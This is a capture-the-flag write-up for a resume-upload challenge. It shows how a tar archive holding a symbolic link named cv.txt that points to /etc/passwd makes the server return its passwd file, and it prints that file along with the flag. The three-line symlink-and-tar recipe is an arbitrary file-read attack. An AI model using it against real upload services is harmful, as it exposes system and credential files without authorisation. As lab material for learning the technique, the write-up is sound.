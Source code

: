 This challenge allow us to register an account and then upload text file as
resume and motivation letter in order to apply for a job.
We can also upload a compressed file (tar) with a cv.txt and a motiv.txt in
order to upload both files at the same time.

### Facebook

This challenge looks like the Facebook vulnerability discover last December:
http://josipfranjkovic.blogspot.fr/2014/12/reading-local-files-from-facebooks.html
nevertheless we must upload a .tar file instead of a .zip file.

### A bit of symbolic link

We create a `cv.txt` file with a symbolic link to `/etc/passwd` and a
`motiv.txt` file with random content and then tar the two files:

    ln -s /etc/passwd cv.txt
    echo plop > motiv.txt
    tar cvf tar.tar *.txt
        cv.txt
        motiv.txt

We upload the file `tar.tar` and we get as excepted the `/etc/passwd` file from
the server:

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh
    sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/bin/sh
    man:x:6:12:man:/var/cache/man:/bin/sh
    lp:x:7:7:lp:/var/spool/lpd:/bin/sh
    mail:x:8:8:mail:/var/mail:/bin/sh
    news:x:9:9:news:/var/spool/news:/bin/sh
    uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
    proxy:x:13:13:proxy:/bin:/bin/sh
    www-data:x:33:33:www-data:/var/www:/bin/sh
    backup:x:34:34:backup:/var/backups:/bin/sh
    list:x:38:38:Mailing List
    Manager:/var/list:/bin/sh
    irc:x:39:39:ircd:/var/run/ircd:/bin/sh
    gnats:x:41:41:Gnats
    Bug-Reporting System (admin):/var/lib/gnats:/bin/s)
    nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
    libuuid:x:100:101::/var/lib/libuuid:/bin/sh
    sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin
    facesec:x:1000:1000:W00tSymL1nkAttackStillW0rksIn2k15:/home/facesec:/bin/sh

The flag is the content of the `User ID Info` of the facesec user.

**Flag: W00tSymL1nkAttackStillW0rksIn2k15**

# SecureAuth
